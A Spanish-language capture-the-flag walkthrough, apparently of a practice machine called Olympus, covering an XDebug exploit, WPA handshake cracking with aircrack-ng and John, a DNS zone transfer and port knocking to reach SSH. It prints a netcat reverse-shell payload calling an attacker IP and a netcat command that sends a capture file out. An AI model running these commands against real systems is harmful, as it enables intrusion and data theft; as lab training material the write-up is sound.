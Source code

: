 ## Vuln exploit & Gaining Access {-}


### Ganando accesso con la vuln XDebug {-}

1. Nos ponemos en escucha con netcat

    ```bash
    nc -nlvp 443
    ```

1. Con el exploit exploit_shell.py lanzamos una reverse shell

    ```php
    system('nc -e /bin/bash 10.10.14.20 443')
    ```

De esta manera, hemos ganado accesso al equipo.

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Investigamos la maquina {-}

```bash
cd /home
#Output
zeus

ls /home/zeus
#Output
airgeddon
```

### Airgeddon.cap crack with Aircrack-ng {-}

Airgeddon es una suite de utilidades para hacer auditorias wifi. Entrando en el repertorio airgeddon del usuario zeus encontramos
otro repertorio llamado captured. Filtrando el contenido del directorio aigedon por ficheros `find \-type f` encontramos un fichero 
**captured.cap** 

Vamos a transferir el fichero captured.cap a nuestro equipo de attackante

1. En la maquina de attackante

    ```bash
    nc -nlvp 443 > captured.cap
    ```

1. En el contenedor

    ```bash
    nc 10.10.14.28 443 < captured.cap
    ```

Saviendo que Airgeddon es una utilidad de auditoria wifi intentamos ver lo que contiene el **captured.cap** con la utilidad **aircrack-ng**.

```bash
aircrack-ng captured-cap
```

```r
    knitr::include_graphics("images/aircrack-airgeddon.png")
```

Se ve un ESSID que se llama `To_cl0se_to_th3_Sun` que parrece turbio, y un handshake que significa que alguien a esperado que una victima se connecte
o reconnecte tras un attaque de deauthentificacion y a recuperado el hash de authentificacion.

Analizando la captura con **tshark** se ve que a sido un attaque de deauthentificacion

```bash
tshark -r captured.cap 2>/dev/null
```

o filtrado por deauthentificacion

```bash
tshark -r captured.cap -Y "wlan.fc.type_subtype==12" -Tfields -e wlan.da 2>/dev/null
```

#### Crackeo con Aircrack-ng {-}

```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt captrured.cap
```

Este crack duraria aprox una hora.

Con investigacion S4vi a pillado una palabra flight en un fichero .txt y buscando por el dios griego del vuelo
encontro que este dios seria icarus.

Para ganar tiempo, se crea un diccionario mas pequenito que contiene la palabra *icar*

```bash
grep "icar" /usr/share/wordlists/rockyou.txt > dictionary.txt
```

```bash
aircrack-ng -w dictionary.txt captured.cap
```

Ya encontramos la contraseña.

#### Crackeo con John {-}

Extraemos lo que nos interressa del fichero **captured.cap** en un fichero mas pequenito que se llama Captura.hccap que con la utilidad
**hccap2john** no permite transformarldo en un hash compatible con **John**

```bash
aircrack-ng -J Captura captured.cap
hccap2john Captura.hccap > hash
john -wordlist=/usr/share/wordlists/rockyou.txt hash
```

### Conneccion a la maquina victima{-}

Ahora que tenemos un usuario potencial y una contraseña, intentamos connectar con ssh al puerto 2222

```bash
ssh icarus@10.10.10.83
```

Con la contraseña encontrada no nos functionna.
Intentamos con el nombre turbio de esta red inalhambrica como contraseña.

**Y PA DENTRO**

### Investigacion de la maquina victima {-}

Hay un fichero que contiene un nombre de dominio valido **ctfolympus.htb**

Intentamos poner el nombre del dominio en el `/etc/hosts` pero la web sigue siendo la misma.

Sabiendo que el puerto 53 esta habierto y teniendo ahora un nombre de dominio valido, podemos
hacer un attacke de transferencia de zona con **dig**

#### Attacke de transferencia de zona con dig {-}

El tito nos vuelve a decir que es muy importante no confundir la arremienta dig con dick. Dig esta en 
la categoria Sciencia y Technologia y la otra en la categoria HotTub ;)

```bash
dig @10.10.10.83 ctfolympus.htb
```

Como **dig** nos responde, ya podemos ir enumerando cosas

1. Enumerar los mail servers

    ```bash
    dig @10.10.10.83 ctfolympus.htb mx
    ```

1. Intentamos un attacke axfr

    ```bash
    dig @10.10.10.83 ctfolympus.htb axfr
    ```

    ```r
        knitr::include_graphics("images/dig-ctfolympus.png")
    ```

Se puede ver que hay un usuario y una contraseña potencial en un TXT con una lista de puertos.
La idea aqui seria de hacer un **Port Knocking**


### Port Knocking {-}

En este caso la idea seria connectarse al puerto 22 (es una supposicion). El problema es que este puerto esta cerrado. 
La idea de la technica de **Port Knocking** es que si el attackante golpea unos puertos en un orden definido, por
iptables se puede exponer o bloquear un puerto.

```bash
nmap -p3456,8234,62431,22 --open -T5 -v -n 10.10.10.83 -r
```

> [!] NOTAS: El argumento `-r` es para decir a NMAP de scannear los puertos en este mismo orden

Lanzando el commando multiples veces, NMAP nos reporta ahora quel puerto 22 esta ya habierto.
Lo que se puede hacer es, de seguida despues del **Port Knocking** con nmap, lanzar un commando
ssh a la maquina.

```bash
nmap -p3456,8234,62431,22 --open -T5 -v -n 10.10.10.83 -r && ssh prometheus@10.10.10.83
```

Perfecto se nos pregunta por una contraseña **Y PA DENTRO**

En este momento ya se puede ver la flag `user.txt` y Podemos passar a la phase de escalacion de privilegios.
